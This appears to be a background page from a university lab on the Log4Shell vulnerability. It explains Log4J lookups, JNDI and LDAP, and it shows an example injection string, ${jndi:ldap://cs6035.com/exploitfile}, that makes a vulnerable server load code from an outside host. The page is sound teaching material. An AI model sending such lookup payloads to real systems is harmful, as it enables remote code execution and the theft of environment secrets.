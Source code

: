 ```yaml
---
layout: default
title: Background
nav_order: 2
parent: Project Log4Shell!
---
```

  
<div style="text-align:center">
  <span style="color: #003057; font-size:36px; font-weight: bold; text-decoration:underline">BACKGROUND</span>
</div>

Log4J is a very popular open-source framework that allows application developers to log important messages such as program flow, program state, exceptions, etc. These messages can include user input, dynamic data, database results, etc.

Java Naming and Directory Interface (JNDI) creates a way for Java Objects to be looked up at runtime. There are many directory interfaces that provide different ways to lookup files. A common example is a database connection pool so that applications deployed on a server can get the connections they need by only needing to know the JNDI name instead of having to have the connection details. You can use Java Serialization to store the byte array representation of an object to store objects in a directory/naming service. JNDI uses Naming References if the object is too large such as “ldap://server/location”

Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) which allow for [string substitution](https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrSubstitutor.html) of certain strings. These are in the form of <span style="font-weight: bold">${prefix:name}</span> i.e. a common one would be <span style="font-weight: bold">${java:runtime}</span> and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play. <span style="font-weight: bold">${jndi:\<lookup\>}</span> is a valid lookup expression recognized by the lookup by Log4J. 

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be <span style="font-weight: bold">${jndi:ldap://cs6035.com/exploitfile}</span> which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.

Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

![alt text](/images/Log4Shell.PNG)
